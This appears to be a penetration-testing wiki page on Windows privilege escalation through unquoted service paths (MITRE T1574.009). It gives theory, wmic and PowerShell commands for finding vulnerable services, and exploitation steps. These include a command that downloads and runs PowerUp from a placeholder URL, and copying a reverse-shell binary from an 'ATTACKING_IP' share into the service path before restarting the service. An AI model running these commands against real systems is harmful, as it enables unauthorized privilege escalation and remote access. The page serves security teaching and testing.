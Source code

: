 ```yaml
---
description: >-
  MITRE ATT&CK™ Hijack Execution Flow - Path Interception by Unquoted Path -
  Technique T1574.09
---
```


# Unquoted Service Path

## Theory

Windows privilege escalation through unquoted service paths is a common vulnerability that occurs when a service executable file is installed in a directory path that contains spaces but is not surrounded by quotation marks. When Windows starts a service, it looks for the executable file based on the service's configuration. If the path to the executable contains spaces and is not enclosed in quotation marks, Windows may interpret the path incorrectly. In such cases, Windows will try to locate the executable using a combination of the directory names and filenames in the path, which can result in unintended files being executed.

Here's an example to illustrate this, consider we have the following executable path:

```
C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe
```

In order to run SomeExecutable.exe, the system will interpret this path in the following order:

* C:\Program.exe
* C:\Program Files\A.exe
* C:\Program Files\A Subfolder\B.exe
* C:\Program Files\A Subfolder\B Subfolder\C.exe
* C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe

## Practice

{% tabs %}
{% tab title="Enumeration" %}
We can use wmic to enumerate it:

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

Alternativly, we can use `Invoke-AllChecks` from PowerUp

```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```
{% endtab %}

{% tab title="Exploit" %}
You can check if you have write acces to a folder with `icacls`

```powershell
icacls "C:\Program Files\A Subfolder\"
```

If you can write to it, you can place your binary like:

```powershell
copy \\ATTACKING_IP\Share\reverse.exe C:\Program Files\A Subfolder\B.exe  
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---unquoted-service-paths" %}
